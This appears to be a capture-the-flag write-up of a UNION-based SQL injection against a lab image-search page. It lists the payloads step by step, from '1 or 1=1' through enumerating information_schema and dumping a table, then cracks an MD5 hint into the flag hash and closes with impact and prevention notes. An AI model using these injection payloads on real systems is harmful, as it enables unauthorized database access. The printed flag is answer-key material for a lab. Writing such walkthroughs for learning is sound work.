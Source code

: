 # SQLI 1

## Attack scenario

On search image I tried basic sqli 

> 1 or 1=1

I got all the Images so basically there is sqli in search image page second thing to do

> 1 union select 1

got an error:

> The used SELECT statements have a different number of columns

so I need to add more columns till i got the exact number o columns 

> 1 union select 1,2

the message error is gone, now we need to change 1 with 0 so we display only data we want.

> 0 union select 1,2

Lets deisplay the database namme to do that we can change 1 or 2 with database function

>  0 union select 1,database()
>  
>  ID: 0 UNION select 1,database() 
>  
> First name: 1
> 
> Surname : Member_images

Now we need to find tables and their columns to do so lets try

> 0 UNION select 1,concat(table_name, 111,column_name) from information_schema.columns 

It worked so basically we concat table and column name I added 111 to separate them because we cant put a char or a string
we got alot of rows, lets search for users, we found users table lets display every column on users table

> 0 UNION select 1,concat(id,url,title,comment) from list_images

fifth image got a sus comment lets decrypt it

> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46


we got albatroz => tolower() => albatroz => sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## SQL Injection impacts

The impact SQL injection can have on a business is far-reaching. A successful attack may result in the unauthorized viewing of user lists, the deletion of entire tables and, in certain cases, the attacker gaining administrative rights to a database

## preventing injection flaws 

Preventing injection requires keeping data separate as far away as possible from commands and queries.

- The preferred option is to use a safe API providing a parameterized interface
- Use positive or “whitelist” server-side input validation that only allows certain values as input
- For needed dynamic queries, escape special characters using the specific escape syntax for that interpreter
- Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection